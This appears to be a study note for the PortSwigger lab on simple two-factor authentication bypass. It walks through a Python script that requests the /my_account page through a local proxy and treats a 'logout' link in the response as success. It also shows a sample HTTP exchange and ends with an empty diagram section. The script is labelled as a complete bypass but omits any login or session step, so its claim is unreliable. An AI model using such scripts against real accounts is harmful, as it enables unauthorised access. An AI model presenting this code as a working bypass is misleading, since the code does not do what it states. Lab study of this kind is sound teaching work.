

## Understanding the Lab Scenario

In this lab, we will simulate a scenario where an attacker attempts to bypass 2FA verification on a web application. The goal is to understand how such a vulnerability can be exploited and how to prevent it.

### Key Concepts

- **URL Construction**: Building the URL to access the target page.
- **HTTP Requests**: Sending HTTP requests to interact with the web application.
- **Response Analysis**: Analyzing the response to determine if the 2FA bypass was successful.
- **Python Scripting**: Automating the exploit using Python.

### Step-by-Step Mechanics

#### Step 1: Construct the URL

The first step is to construct the URL to access the target page. In this case, the target page is the "my account" page.

```python
# Define the base URL and the path to the my account page
base_url = "http://example.com"
path = "/my_account"

# Construct the full URL
account_url = base_url + path
```

#### Step 2: Send the HTTP Request

Next, we send an HTTP request to the constructed URL. We will use the `requests` library in Python to handle the HTTP request.

```python
import requests

# Define the proxies (if any)
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

# Send the GET request
response = requests.get(account_url, proxies=proxies)
```

#### Step 3: Analyze the Response

After sending the request, we analyze the response to determine if the 2FA bypass was successful. We check if the response contains the "logout" string, which indicates that the bypass was successful.

```python
# Check if the response contains the "logout" string
if "logout" in response.text:
    print("Successfully bypassed 2FA verification")
else:
    print("Exploit failed")
    exit()
```

### Full Example Code

Here is the complete Python script that performs the 2FA bypass:

```python
import requests

# Define the base URL and the path to the my account page
base_url = "http://example.com"
path = "/my_account"

# Construct the full URL
account_url = base_url + path

# Define the proxies (if any)
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

# Send the GET request
response = requests.get(account_url, proxies=proxies)

# Check if the response contains the "logout" string
if "logout" in response.text:
    print("Successfully bypassed 2FA verification")
else:
    print("Exploit failed")
    exit()
```

### HTTP Details

Let's break down the HTTP request and response in detail:

#### HTTP Request

```http
GET /my_account HTTP/1.1
Host: example.com
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Connection: keep-alive
Proxy-Connection: keep-alive
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234
Connection: close

<!DOCTYPE html>
<html>
<head>
    <title>My Account</title>
</head>
<body>
    <h1>Welcome to your account</h1>
    <p><a href="/logout">Logout</a></p>
</body>
</html>
```

### Mermaid Diagram

A mermaid diagram can help visualize the flow of the 2FA bypass process:



---
<!-- nav -->
[[Web Security (PortSwigger)/13-Authentication Vulnerabilities/03-Lab 2 2FA simple bypass/04-How to Prevent  Defend|How to Prevent  Defend]] | [[Web Security (PortSwigger)/13-Authentication Vulnerabilities/03-Lab 2 2FA simple bypass/00-Overview|Overview]] | [[Web Security (PortSwigger)/13-Authentication Vulnerabilities/03-Lab 2 2FA simple bypass/06-Practice Questions & Answers|Practice Questions & Answers]]
